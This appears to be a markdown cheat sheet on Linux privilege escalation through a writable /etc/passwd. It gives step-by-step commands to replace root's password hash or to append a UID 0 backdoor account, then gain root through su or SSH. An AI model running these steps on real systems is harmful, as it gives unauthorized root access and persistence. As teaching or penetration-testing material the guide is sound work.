




### **OVERVIEW OF /ETC/PASSWD VULNERABILITIES**

The `/etc/passwd` file is crucial in Linux systems as it stores essential information about user accounts. It is readable by all users on the system but should only be writable by the root user. Any misconfiguration in its permissions can lead to severe security risks.

### **STEP 1: MODIFYING /ETC/PASSWD TO CHANGE ROOT PASSWORD**

If `/etc/passwd` is writable, attacker can modify the password hash of the root user to a known value, enabling unauthorized root access. This is feasible if the system uses legacy behavior where `/etc/passwd` can contain password hashes.

1.  Confirm if /etc/passwd is writable.  
    `ls -l /etc/passwd`  
    
    
    
2.  Use OpenSSL to generate a new password hash with a password of your choice:.  
    `openssl passwd -1 "hackfast"`  
    
    
    
3.  Replace the root user password hash.  
    `nano /etc/passwd`  
    
    
    
4.  Use the new password to switch to the root user.  
    `su`  
    
    
    
5.  Alternatively, log in with SSH:  
    `ssh root@[IP-ADRESS]`
    

### **STEP 2: ADDING A NEW ROOT ACCOUNT**

If appending is possible but not modification, you can add a new user with root privileges by assigning them the root user ID (UID 0).

1.  Add a new entry with UID 0 and your known password hash.  
    `echo 'newroot:[hash]:0:0:root:/root:/bin/bash' >> /etc/passwd`
    
2.  Log in as the new user without needing root actual password.  
    `su newroot`
    
3.  Alternatively, log in with SSH:  
    `ssh newroot@[IP-ADRESS]`